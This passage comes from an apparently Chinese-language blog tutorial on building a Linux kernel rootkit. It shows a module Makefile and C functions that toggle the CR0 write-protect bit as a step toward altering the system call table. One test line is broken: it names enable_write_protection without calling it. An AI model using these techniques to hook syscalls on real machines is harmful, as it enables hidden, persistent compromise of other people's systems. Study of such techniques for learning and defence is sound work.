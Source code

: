 Makefile:

```
TARGET = sys_call_table
obj-m := ${TARGET}ko.o
${TARGET}ko-objs := ${TARGET}.o 

default:
        ${MAKE} modules \
                --directory "/lib/modules/$(shell uname --release)/build" \
                M="$(shell pwd)"

clean:
        ${MAKE} clean \
                --directory "/lib/modules/$(shell uname --release)/build" \
M="$(shell pwd)"
```

我们没有使用第一次实验中的`module_init`和`module_exit`两个宏去指定入口函数和出口函数，那样也是可以的，这里只是使用了默认的入口函数名和出口函数名。

测验结果如下：

![linux-rkt-3]({{ site.url }}/images/LinuxRootkits/linux-rkt-3.png)

**② 从/boot/System.map提取**

暂略，见【拓展阅读】3。

**③ 使用未导出函数机器码搜索**

暂略，见【拓展阅读】4

#### 2 关掉写保护

找到地方了，下面要关闭写保护。`CR0`寄存器从0数的第16比特控制了对只读内存的写保护是否开启，详见【已参考】3。巧的是，我们可以用内核自己的`read_cr0`/`write_cr0`去读写`CR0`，并用它提供的`clear_bit`/`set_bit`接口去做位运算。我们把它们封装一下：

{% highlight c %}
void disable_write_protection(void)
{
	unsigned long cr0 = read_cr0();
    clear_bit(16, &cr0);
    write_cr0(cr0);
}

void enable_write_protection(void)
{
	unsigned long cr0 = read_cr0();
    set_bit(16, &cr0);
    write_cr0(cr0);
}
{% endhighlight %}

接着在入口函数中添加一些测试代码：

{% highlight c %}
unsigned long cr0;
cr0 = read_cr0();
printk("Old: %d\n", test_bit(X86_CR0_WP_BIT, &cr0));
disable_write_protection();
cr0 = read_cr0();
printk("New: %d\n", test_bit(X86_CR0_WP_BIT, &cr0));
enable_write_protection
cr0 = read_cr0();
printk("Now: %d\n", test_bit(X86_CR0_WP_BIT, &cr0));
{% endhighlight %}
